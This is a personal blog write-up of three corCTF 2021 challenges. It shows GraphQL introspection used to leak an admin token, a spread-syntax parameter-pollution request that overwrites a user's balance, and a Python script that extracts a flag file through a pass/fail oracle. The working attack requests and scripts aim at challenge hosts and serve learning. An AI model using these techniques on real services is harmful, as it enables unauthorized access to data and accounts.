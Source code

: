 ```yaml
---
title: "CTF - corCTF 2021"
categories: [ctf]
date: 2021-09-02
comments: true
image: /images/kashmir.png
description: CTF - corCTF 2021
favicon: /images/favicon.ico
---
```


# corCTF 2021

<p align="center">
  <img src="/images/writeups/corCTF2021/logo.png" width="30%"/>
</p>

Welcome! I've participated on my own in this CTF for team [ISwearIGoogledIt](https://ctftime.org/team/109689) and got some challenges! I focused on the web ones, but had two from crypto and one from misc. I enjoyed the web ones, learned a lot from graphql and javascript and its spread syntax.

<p align="center">
  <img src="/images/writeups/corCTF2021/rank.png" width="70%"/>
</p>

---

Challenge index:

### Web
- [devme](#devme)
- [buyme](#buyme)

### Misc
- [yeetcode](#yeetcode)

<small><i><a href="https://github.com/kashmir54/md-toc">Table of contents generated with md-toc</a></i></small>


---

# Web

## devme

an ex-google, ex-facebook tech lead recommended me this book!

https://devme.be.ax


First thing was to check the functionality of the website and I fond this interesting. With the email sent, the JS makes a call to a graphql endpoint which takes a JSON as an input with the name/email:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_formjs.png" width="70%"/>
</p>

```javascript
document.getElementById('form').onsubmit = async e => {
  e.preventDefault();

  const email = document.getElementById('email').value;

  let res = await (await fetch('/graphql', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    query,
    variables: { email }
  })
  })).json();

  if (res.data) {
  document.getElementById('form-wrapper').innerHTML = `<h2 class="form-heading 
      text-center">Thanks, you'll hear from us soon!</h2>`
  }

  return false;
}
```

For the first run I debugged the JS and res variable was:

username: "bb0b9d32cdba541ee0bf7ea8acc5b166e09c429a5493f15a2cae714b15f84d33"

Other run obtained

username: "e17fb2b1415f1a670810aa54e23042818fdd93d4e873f7e2c07c421ea598acc7"


Seems like the Graphql is executing the query set on the parameter?

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_token.png" width="90%"/>
</p>

I prepared the following payload in BurpSuite and sent it to the server:

- Query:

```
query "mutation createUser($email: String!) {\n\tcreateUser(email: $email) {\n\t\tusername\n\t}\n}\n"
variables {…}
email "test@test.com"
```

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_graphql.png" width="90%"/>
</p>

Yes it does. I have never used Graphql so I had to get a grasp of it with the [documentation](https://graphql.org/learn/queries/) to understand what's going on and how it works.
Current query send every time is this one:

```json
{
  "query" : "mutation createUser($email: String!){\n\tcreateUser(email: $email) {\n\t\tusername\n\t}\n}\n",
  "variables" : {"email" : "test@test.com"}
}
```

To enumarate the objects in the API we can use the following query. [HackTricks always helps](https://book.hacktricks.xyz/pentesting/pentesting-web/graphql) and I also saw it on this [great write up](https://jaimelightfoot.com/blog/hack-in-paris-2019-ctf-meet-your-doctor-graphql-challenge/):

- Query:

```json
{
  "query":"{__schema{\n\t queryType{\n\t fields{\n\t name\n}\n}\n}\n}",
  "variables":{"email":"test@test.com"}
}
```

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_graphql.png" width="90%"/>
</p>

We can see the object flag. Let's work on crafting a payload to retrieve its content.
To get more information:

- Query:

```json
{
  "query":"{__schema {types {name}}}",
  "variables":{"email":"test@test.com"}
}
```

Response

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_2_graphql.png" width="90%"/>
</p>

Let's retrieve the users by the username (since we saw that the response to create user was a user hash):

- Query:

```json
{
  "query":"{users {username}}",
  "variables":{"email":"test@test.com"}
}
```

Response:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_3_graphql.png" width="90%"/>
</p>


Okey, now I know something more about Graphql. Following the same syntax, I will try to obtain the content from flag:

- Query:

```json
{"query":"{flag}"}
```

Response Error:

```json
{
  "message":"Field \"flag\" argument \"token\" of type \"String!\" is required, but it was not provided."
}
```

From the message we suppose that there is a token that will be used to obtain the flag... What if the user _admin_ had two attributes _username_ and _token_? Let's give it a try:

- Query:

```json
{"query":"{users {username token}}"}
```

Response:

```json
{"data":{
  "users":[
  {
    "username":"admin",
    "token":"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b"
  },
  {
    "username":"b82d9af8a6226c072bcd811e7a009ffb36b2ad88be67ac396d170fe8e2f1de7c",
    "token":"5568f87dc1ca15c578e6b825ffca7f685ac433c1826b075b499f68ea309e79a6"
  },
  {"...":"..."}
```

Now let's try to retrieve the flag using the admin token:

- Query:

```json
{
  "query":"{flag(token:\"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b\")}"
}
```

Response:

```json
{"data":{"flag":"corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}"}}
```

We have the flag:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_7_burpflag.png" width="90%"/>
</p>


``` corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice} ```


Great, I could learn how GraphQL works and wanted to go further. Now that I have understood how it works and how to enumerate manually. I found a tool from [swisskyrepo](https://github.com/swisskyrepo) similar to sqlmap, it's called [GraphQLmap](https://github.com/swisskyrepo/GraphQLmap).
I saw how it works and makes the recon task so much easier:

```
python3 graphqlmap.py -u https://devme.be.ax/graphql -v --method POST 
```

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_4_graphqlmap.png" width="90%"/>
</p>

Not only enumerate, but also interact with the API:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_5_graphqlmap.png" width="90%"/>
</p>

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_6_flag.png" width="90%"/>
</p>


``` corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice} ```


## buyme
I made a new site to buy flags! But no hoarding, okay :<

I enjoyed this one so much! So let's dive in:

We land into a website where we can register, log in and buy flags. By default, we have 100$ and buy four flags, but not the one we want, the CTF flag.

<div display="grid">
  <img src="/images/writeups/corCTF2021/Web/2_01.png" width="48%"/>
  <img src="/images/writeups/corCTF2021/Web/2_02.png" width="48%"/>
</div>

They provided us the code, so I took a look into it. Most interesting parts were:

- The access to the flag storage and the buying process:

```javascript
const fs = require("fs");

const flags = new Map();
for(let flag of JSON.parse(fs.readFileSync("flags.json")).flags) {
  if(flag.name === "corCTF") {
    flag.text = process.env.FLAG || "corctf{test_flag}";
  }
  flags.set(flag.name, flag);
}

const users = new Map();

const buyFlag = ({ flag, user }) => {

  if(!flags.has(flag)) {
    throw new Error("Unknown flag");
  }
  if(user.money < flags.get(flag).price) {
    throw new Error("Not enough money");
  }

  user.money -= flags.get(flag).price;
  user.flags.push(flag);
  users.set(user.user, user);
};

module.exports = { flags, users, buyFlag };
```

- The api.js where the content is served:

```javascript
const express = require("express");
const bcrypt = require("bcrypt");

const router = express.Router();

const db = require("../db.js");

const requiresLogin = (req, res, next) => {
  if(!req.user) {
    return res.redirect("/?error=" + encodeURIComponent("You must be logged in"));
  }
  next();
};

router.post("/register", async (req, res) => {
  let { user, pass } = req.body;
  if(!user || !pass) {
    return res.redirect("/?error=" + encodeURIComponent("Missing username or password"));
  }
  if(db.users.has(user)) {
    return res.redirect("/?error=" + encodeURIComponent("A user already exists with that username"));
  }
  db.users.set(user, {
    user,
    flags: [],
    money: 100,
    pass: await bcrypt.hash(pass, 12)
  });
  res.cookie('user', user, { signed: true, maxAge: 1000*60*60*24 });
  res.redirect("/");
});

router.post("/login", async (req, res) => {
  let { user, pass } = req.body;
  if(!user || !pass) {
    return res.redirect("/?error=" + encodeURIComponent("Missing username or password"));
  }
  if(!db.users.has(user)) {
    return res.redirect("/?error=" + encodeURIComponent("No user exists with that username"));
  }
  if(!await bcrypt.compare(pass, db.users.get(user).pass)) {
    return res.redirect("/?error=" + encodeURIComponent("Incorrect password"));
  }

  res.cookie('user', user, { signed: true, maxAge: 1000*60*60*24 });
  res.redirect("/");
});

//Special attention here:
router.post("/buy", requiresLogin, async (req, res) => {
  if(!req.body.flag) {
    return res.redirect("/flags?error=" + encodeURIComponent("Missing flag to buy"));
  }
  try {
    db.buyFlag({ user: req.user, ...req.body });
  }
  catch(err) {
    return res.redirect("/flags?error=" + encodeURIComponent(err.message));
  }

  res.redirect("/?message=" + encodeURIComponent("Flag bought successfully"));
});

module.exports = router;
```

At the first glimpse I thought, maybe I can register with infinite money and buy the flag, but after some crazy ideas I found no way to exploit the user creation, no JSON inyection was possible in this piece of code:

```javascript
db.users.set(user, {
  user,
  flags: [],
  money: 100,
  pass: await bcrypt.hash(pass, 12)
});
```

Then I just focused on the buying process. And found this piece of code interesting, specially in the arguments and the [spread syntax (...)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Spread_syntax) with a user input after it (**req.body**):

```javascript
router.post("/buy", requiresLogin, async (req, res) => {
  if(!req.body.flag) {
    return res.redirect("/flags?error=" + encodeURIComponent("Missing flag to buy"));
  }
  try {
    //Buying a flag with spread argument controlled by a user
    db.buyFlag({ user: req.user, ...req.body });
  }
  catch(err) {
    return res.redirect("/flags?error=" + encodeURIComponent(err.message));
  }

  res.redirect("/?message=" + encodeURIComponent("Flag bought successfully"));
});
```

Let's check the request when we buy the Indian flag:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/2_03.png" width="90%"/>
</p>

We can see that a POST request is sent with variable user equals to the user obtained in the session and the _flag=India_ set in the resquest body. Then, the buyFlag function is called.

```javascript
const buyFlag = ({ flag, user }) => {

  if(!flags.has(flag)) {
    throw new Error("Unknown flag");
  }
  if(user.money < flags.get(flag).price) {
    throw new Error("Not enough money");
  }

  user.money -= flags.get(flag).price;
  user.flags.push(flag);
  users.set(user.user, user);
};
```

I started thinking... Maybe I can spoof the user object at the call **{ user: req.user, ...req.body }** by adding in the body request a key called **user**, then this **user** will be the last at the function called and will substitute the one provided at the beginning. 

The key for this challenge is how we send that information. I'm currently learning and it took me some thinking for this. I used Burp Suite Repeater for this attack and to test different options or ideas. In this process I used the provided code to deploy the web server and to debug the payload type and how the payload was injected in the spread syntax.

First I tried the following payload, but no effect took placed because req.body won't parse the user and place it as it is:

```
POST /api/buy HTTP/1.1
Host: buyme.be.ax
Content-Type: application/x-www-form-urlencoded
Cookie: user=s%3Akash.hWxlfYBnVsfOT6FEyD7nAloOEFSk7kX4%2BHCCYdnKBVk

flag=corCTF&user={}

or 

flag=corCTF&user={"kash":{"flags":[],"money":10000000000000000000000000000,
  "pass":"$2a$12$e6.1cSQ4ynSUXDTN5HvkN.RlAqWDOtOqHL3twe/wRD77MBKKELJZO"
}}
```

Then while debugging I found the key, sending an object. How? Instead of sending parameters and strings, let's send a JSON object. To do it, I changed the header Content-Type from _x-www-form-urlencoded_ to _application/json_ and spoof of money variable and set it to **1e400** for example:


```
POST /api/buy HTTP/1.1
Host: buyme.be.ax
Content-Type: application/json
Cookie: user=s%3Akash.hWxlfYBnVsfOT6FEyD7nAloOEFSk7kX4%2BHCCYdnKBVk

{"flag":"corCTF",
  "user":{
    "user": "kash",
    "flags": [],
    "money": 1e400,
    "pass":"$2b$12$e4fanJaZOX1pwZTVxsHcZOIuGp.3Ti27FtVnesFrURw4eSWfY6aGi"
  }
}
```

We can see that the request is responding flag bought successfully.
<p align="center">
  <img src="/images/writeups/corCTF2021/Web/2_0.png" width="90%"/>
</p>

We can go to my flag inventory and saw the flag (it shows two because I sent the request twice):

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/2_1_flag.png" width="90%"/>
</p>

``` corctf{h0w_did_u_steal_my_flags_you_flag_h0arder??!!} ```

Really fun and learned a lot.

---

# Misc

## yeetcode
Brush up on your coding skills and ace your next interview with YeetCode! Flag is at ./flag.txt
https://yeetcode.be.ax

We enter in the website and find that there is a challenge for coding:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_6_flag.png" width="90%"/>
</p>

With the following input (python code that meets the requirements), it shows that there are 10 test cases:

```python
def f(a, b):
  return a+b
```

- Message: You passed 10/10 test cases. Congrats!


On the provided code, we can see that there are two fixes test cases, the rest is random:

- Test 1: 2+3 = 5
- Test 2: 5+7 = 12

The provided code:

```python
from flask import Flask, render_template, request, session
import random, epicbox, os

# docker pull 

epicbox.configure(
  profiles=[
    epicbox.Profile('python', 'python:3.9.6-alpine')
  ]
)

app = Flask(__name__)
app.secret_key = os.urandom(16)
flag = open('flag.txt').read()

@app.route('/')
def yeet():
  return render_template('yeet.html')

@app.route('/yeet')
def yeetyeet():
  return render_template('yeetyeet.html')

@app.route('/yeetyeet', methods=['POST'])
def yeetyeetyeet():
  if 'run' in session and session['run']:
    return {'error': True, 'msg': 'You already have code running, please wait for it to finish.'}
  session['run'] = True
  code = request.data
  tests = [(2, 3, 5), (5, 7, 12)]
  for _ in range(8):
    a, b = random.randint(1, 100), random.randint(1, 100)
    tests.append((a, b, a + b))
  
  cmd = 'from code import f\n'
  outputs = []
  for case in tests:
    a, b, ans = case
    cmd += f'print(f({a}, {b}))\n'
    outputs.append(str(ans))

  files = [{'name': 'flag.txt', 'content': flag.encode()}, {'name': 'code.py', 'content': code}]
  limits = {'cputime': 1, 'memory': 16}
  result = epicbox.run('python', command='python3', stdin=cmd, files=files, limits=limits)

  if result['exit_code'] != 0:
    session['run'] = False
    return {'error': True, 'msg': 'Oops! Your code has an error in it. Please try again.'}
  actual = result['stdout'].decode().strip().split('\n')

  passes = 0
  fails = 0
  for i in range(len(outputs)):
    if outputs[i] == actual[i]:
      passes += 1
    else:
      fails += 1

  session['run'] = False
  return {'error': False, 'p': passes, 'f': fails}

if __name__ == "__main__":
  app.run(host='0.0.0.0', port=5000)
```

We cannot just place a print in the code and print the flag, because there is no output, but we can access and read the flag to make operations over it.
Since there are two fixed set cases, we can use them to bruteforce each char of the flag whenever or code gets in that specific test. Then, we have contron on triggering the error only in one of the test cases, for example:

Bruteforece first char:
if test case 2+3 and first char is a, return correct response (5), if it is not a, send failed response
if test case is not 2+3, return the correct sum (a+b)

In this way, if the recieve 10/10 tests passed, we know that the guessed letter is correct, otherwise it wasn't.
The following code is proposed:

```python

import requests

def guess_it(flag_index):

  a, b = 97, 126

  for guess in range(a,b):

    print("Guess ascii: {} - {}".format(guess, chr(guess)))

    r = requests.post(url=url, data = input_code.format(flag_index, guess), cookies = cookie)
    #print(r.json())
    # If read char if right:
    if r.json()['p'] == 1:

      print('Found: ' + chr(guess))
      return chr(guess)

  return 0


input_code = """def f(a, b):
  if a==2 and b==3:
    f = open("flag.txt", "rb")
    char = f.read()[{}]
    if char == {}:
      return 5
    else:
      return 1234
  else:
    return a"""


url = "https://yeetcode.be.ax/yeetyeet"
cookie = {"session": "eyJydW4iOmZhbHNlfQ.YSBRoA.tysIiP53vCiR6K95eHZA_1hxk30"}

flag = []

for flag_index in range(0,50):
  flag.append(guess_it(flag_index))
  print(''.join(flag))
```

It will take so long to get it by using linear search O(n)... Let's go for an easy binary search strategy (and also, use all posible ascii characters (from 32 to 126)):

```python
import requests

def guess_it(flag_index):

  a, b = 32, 126
  mid = (a+b)//2

  while a < b:

    print("Guess ascii: {} - {}".format(mid, chr(mid)))

    r = requests.post(url=url, data = input_code.format(flag_index, mid), cookies = cookie)
    #print(r.json())
    # If read char if right:
    if r.json()['p'] == 1:
      b = mid
    else:
      a = mid + 1
    mid = (a+b)//2

  
  return chr(mid-1)


input_code = """def f(a, b):
  if a==2 and b==3:
    f = open("flag.txt", "rb")
    char = f.read()[{}]
    if char < {}:
      return 5
    else:
      return 1234
  else:
    return a"""

url = "https://yeetcode.be.ax/yeetyeet"
cookie = {"session": "eyJydW4iOmZhbHNlfQ.YSBRoA.tysIiP53vCiR6K95eHZA_1hxk30"}

flag = []

for flag_index in range(0,50):
  flag.append(guess_it(flag_index))
  print(''.join(flag))

```

Output:

```
...
corctf{1m4g1n3_cp_g0lf_6a318df
Guess ascii: 79 - O
Guess ascii: 103 - g
Guess ascii: 91 - [
Guess ascii: 97 - a
Guess ascii: 100 - d
Guess ascii: 102 - f
Guess ascii: 101 - e
corctf{1m4g1n3_cp_g0lf_6a318dfe
Guess ascii: 79 - O
Guess ascii: 103 - g
Guess ascii: 115 - s
Guess ascii: 121 - y
Guess ascii: 124 - |
Guess ascii: 125 - }
corctf{1m4g1n3_cp_g0lf_6a318dfe}
Guess ascii: 79 - O
Guess ascii: 55 - 7
Guess ascii: 43 - +
Guess ascii: 37 - %
Guess ascii: 34 - "
Guess ascii: 33 - !
Guess ascii: 32 -  
corctf{1m4g1n3_cp_g0lf_6a318dfe}
Guess ascii: 79 - O
```

So much faster now ;)

``` corctf{1m4g1n3_cp_g0lf_6a318dfe} ```


That's all from this CTF, thanks for reading!